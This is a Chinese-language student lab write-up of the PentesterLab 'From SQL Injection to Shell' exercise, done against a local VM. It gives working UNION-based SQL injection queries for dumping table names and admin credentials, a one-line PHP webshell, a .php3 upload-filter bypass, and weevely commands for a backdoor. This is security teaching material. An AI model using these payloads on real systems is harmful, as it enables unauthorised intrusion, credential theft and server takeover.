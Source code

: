 # chap0x07 从SQL注入到Shell

----------

## 实验目的
* 在基于PHP的网站中使用SQL注入来获取对管理页面的访问权限
* 利用获取的权限在服务器上执行代码
## 实验环境
* 客户端
	<pre>
	名称：Client
	网卡：eth1(Host-Only 网络)
	IP：192.168.56.102
	</pre>
* 服务端
	<pre>
	名称：Server
	网卡：eth0(Host-Only 网络)
	IP：192.168.56.101
	</pre>
## 实验过程
* 检测网站是由哪种语言编写
	* Server在线状态下，Client的Firefox浏览器中打`inspect element`然后访问地址`192.168.56.101`,在Network栏检查Response headers的X-Powered-By字段。
	* 结果：网站基于PHP编写
	* ![](image/PHP.png) 
* 检测是否可进行SQL注入
	* 通过SQL查询语句返回的错误提示信息检测网站是否可进行SQL注入
	* 访问`192.168.56.101/cat.php?id=num`,num为不同的数字时返回的结果如下
	* ![](image/id1.png)
	* ![](image/id2.png)
	* ![](image/id1_.png)
	* 输入`id=2-1`时仍返回id=1时的页面，说明URL中提供的参数被当作整数进行SQL查询，且允许用户进行基本的数学运算。在输入`192.168.56.101/cat.php?id=2-1'`时引起了SQL语法错误，说明服务端对用户的输入没有做处理进行了SQL查询，因此可以将此处作为一个注入点。
* 尝试进行SQL注入
	* 查询语句的开头不能由客户直接修改，因为它存在于web端的PHP代码中，但是我们可以使用`union`语句来构造查询语句的结尾。要使用`UNION SELECT`并且能让服务器正确返回查询结果，而不是触发错误，首先要通过`order by`语句找到select语句的查询结果返回了多少列，发现当URL=`\cat.php?id=2 order by 5`时发生错误：
	* ![](image/order.png) 
	* 或者可以使用`/cat.php?id=2 union select 1,2,3,4`找到select语句的查询结果返回了多少列，因为只有当union前后查询结果返回的列数相同时才不会触发错误。使用这种方式查询时发现网站对union后面的查询语句返回结果是`picture:2`说明第二列是作为图片名输出的。那么可以将需要的查询结果放到第二列来显示到网页。
	* ![](image/select.png)
	* 现在已经知道SQL查询后返回的结果有4列，使用查询语句` UNION SELECT 1,table_name,3,4 FROME information_schema.tables`即可返回数据库中所有的table。` UNION SELECT 1,column_name,3,4 FROME information_schema.columns`用于返回数据库中所有的列。
	* ![](image/union1.png)
	* 但是我们需要的是每一列对应的表。因此需要使用`concat`函数，将两个字符串连接为一个字符串。查询语句为`1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`。返回的结果显示了数据库中每一列对应的表。
	* ![](image/union2.png)
	* 在众多返回结果中发现users表，其对应的列名有id,login,password三个。
	* ![](image/users.png)
	* 现在开始对users表进行信息筛选。发现数据库对password进行了加密，通过浏览器解密得password:P4ssw0rd.
	* ![](image/admin.png)
	* 现在我们获得了网站管理员的登录名和密码，相当于获得了管理页面的访问权限。接下来就是如何上传webshell并执行。
	* ![](image/success.png)
* 尝试上传webshell并执行
	* 先在本地编写PHP代码并保存为shell.php文件,然后利用网站的上传功能上传此文件。发现上传失败，网站对PHP文件的上传进行了限制。将文件重命名为shell.php3，上传成功。
	```
	<?php
	  system($_GET['cmd']);
	?>
	```
	* ![](image/upload_php.png)
	* 通过浏览器的网页编辑功能找到上传的shell.php3在web服务器端的保存位置，位置为`admin/uploads/shell.php3`
	* ![](image/img_src.png)
	* 现在开始尝试执行上传的webshell。返回结果是web服务器当前内核，Linux。至此webshell成功执行。
	* ![](image/webserver.png)
* 高级webshell
	* 使用kali自带的工具`weevely`
	* 用法
		* `weevely generate <password> <path>`,生成webshell
		* 将生成的webshell上传至网站
		* `weevely <URL> <password> [cmd]`,用weevely与web端建立连接
		* ![](image/weevely.png)
## 结尾
* 参考资料[https://pentesterlab.com/exercises/from_sqli_to_shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
* 参考同学作业[https://github.com/CUCCS/2018-NS-Public-TheMasterOfMagic](https://github.com/CUCCS/2018-NS-Public-TheMasterOfMagic/tree/ns-chap0x07)